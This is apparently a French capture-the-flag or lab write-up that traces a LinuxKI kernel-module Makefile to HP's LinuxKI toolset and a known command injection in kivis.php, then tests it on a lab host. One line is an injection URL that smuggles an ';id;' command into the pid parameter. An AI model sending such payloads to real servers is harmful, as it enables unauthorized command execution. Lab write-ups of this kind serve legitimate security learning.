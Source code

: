 Intéressant, on trouve un fichier *Makefile* qui semble correspondre au build d'un module kernel. Extrait :

```makefile
build:
        $(MAKE) -C $(KERNELDIR) M=$(PWD) modules  
        cp likit.ko likit.ko.$(shell uname -r)

clean:
        rm -rf *.o *~ core .depend .*.cmd *.ko* *.mod.c *.unsigned *.order Module*

install:
        cp likit.ko /opt/linuxki/modules/likit.ko.$(shell uname -r)
        mkdir /lib/modules/$(shell uname -r)/misc 2>/dev/null
        cp likit.ko /lib/modules/$(shell uname -r)/misc/
```

Ce *LinuxKi* serait donc une vrai app et non un code custom. J'ai fait des recherches et je suis tombé sur [LinuxKI Toolset (Trace-based performance analysis tool)](https://github.com/HewlettPackard/LinuxKI) un projet open-source de *HewlettPackard*.

J'ai ensuite trouvé cet exploit : [HP LinuxKI 6.01 - Remote Command Injection - Multiple remote Exploit](https://www.exploit-db.com/exploits/48483)

Le projet en question semble par conséquent avoir une partie kernel mais aussi des scripts PHP donc un nommé *kivis.php* qui est vulnérable.

A tout hasard j'ai lancé [Nuclei](https://nuclei.projectdiscovery.io/) dessus pour voir si il trouvait la vulnérabilité mais ce n'est pas le cas.

Si on se tient à ce que l'exploit fait, il suffit d'injecter des commandes dans le paramètre `pid` de l'URL. J'ai donc essayé avec :

`http://192.168.56.42/linuxki/experimental/vis/kivis.php?type=kitrace&pid=;id;`

Mais je n'obtenais qu'une page d'erreur pour un utilitaire nommé `kiinfo`.

```textile
 Error: Argument missing
Usage:   kiinfo [options ...]
Options:
	-dump | -kitracedump [flag,flag...]
		 flags: debug_dir=<path>
			dur=<duration>
			events=<default | all | tool | event>
			subsys=<subsys>
			help
	-likid | -likidump [flag,flag...]
		 flags: debug_dir=<path>
			pid=<pid>
			tgid=<tgid>
			dev=<dev>
			cpu=<cpu>
			msr
			dur=<duration>
			events=<default | all | tool | event>
			subsys=<subsys>
			sysignore=<filename>
			help
	-likim | -likimerge [flag,flag...]
		 flags: help
--- snip ---
```
